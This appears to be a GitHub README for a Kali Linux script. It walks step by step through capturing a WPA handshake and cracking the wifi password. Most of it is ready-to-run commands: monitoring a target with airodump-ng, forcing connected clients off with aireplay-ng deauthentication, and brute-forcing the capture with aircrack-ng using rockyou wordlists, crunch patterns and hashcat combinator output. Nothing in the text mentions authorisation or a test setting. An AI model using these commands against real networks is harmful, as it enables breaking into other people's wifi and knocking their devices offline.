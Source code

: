 # kali wifi setup script

Just a basic script to bring a wlan0 interface up to monitor mode and start airodump-ng if required, once you have the interface running in monitor mode, then running airodump-ng you can use the process below in order to capture wireless data and aim to crack the wpa password.


Route to capture wpa handshake

1: use the above output to decide on target and note details:
```
BSSID:     00:00:00:00:22:30
ESSID:     TESTAP
Client:    00:00:00:00:00:ED
Mon0:      00:00:00:00:00:A8
Channel:   11
```
2: Screen 1 - Monitor target for clients using: 

```airodump-ng -c <Channel> --bssid <BSSID> -w <CaptureName> <Mon0 interface name>```
  
3: Screen 2 - Associate with the bssid: 

```aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your Mon0 MAC> <Mon0 interface name>```
  
4: Screen 3 - death a connected client periodically until the wpa handshake is witnessed / captured in screen 1 
  
```aireplay-ng -0 1 -a <AP MAC> -c <Client MAC to DeAuth> <Mon0 interface name>```
  
5: Go get a life and hope that you can attack the wifi handshake captured

```john --wordlist=/usr/share/wordlists/rockyou.txt --rules --stdout | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap```

6: If you know a pattern for the wifi password then try the following items?

```crunch 8 8 abcdef1234567890 | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap
crunch 8 8 abcdefghijklmnopqrstuvqxyz | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap
```

7: Failing all the above and if you have a powerful enough GPU GTX 1080 :D then try combinations of words such as:

```/usr/lib/hashcat-utils/combinator.bin /usr/share/wordlists/rockyou.txt /usr/share/wordlists/rockyou.txt  |aircrack-ng -0 -e "THEAPANAME" -w - SOMEPATH/THECAPTURENAME.cap```


All of the above may produce 0 results and take a looong time to do so, however if weak words/pairs of words or weak default patterns are used then the above will yield a result eventually......maybe......hopefully......who knows......?
